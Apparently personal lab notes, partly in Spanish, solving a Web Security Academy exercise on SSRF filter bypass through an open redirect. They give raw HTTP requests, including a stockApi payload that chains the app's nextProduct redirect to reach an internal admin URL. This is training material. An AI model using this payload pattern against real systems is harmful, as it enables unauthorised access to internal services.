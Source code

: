 ```yaml
---
layout: default
title: 5 - SSRF with filter bypass via open redirection vulnerability
---
```

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

Haciendo una request directamente no deja, pero pasando la request a un open redirect que haga la petición interna ==bypaseamos ese filtro==

``` request
POST /product/stock HTTP/2
Host: 0ab800830446a8588300a0ef00af0072.web-security-academy.net
Cookie: session=cCW4DzYlJqVFwOCgCJCACF9jEQR9bhFK; session=2XI0cPpWGMLj7a8udnXgPDin9nje3PQ1
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: */*
Origin: https://0ab800830446a8588300a0ef00af0072.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ab800830446a8588300a0ef00af0072.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

aprovechándonos de esta petición :

```request

GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/2
Host: 0ab800830446a8588300a0ef00af0072.web-security-academy.net
Cookie: session=DGeSsz30YMo7s8mspnNqwmWV28TZ4tCr; session=2XI0cPpWGMLj7a8udnXgPDin9nje3PQ1
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab800830446a8588300a0ef00af0072.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i
```
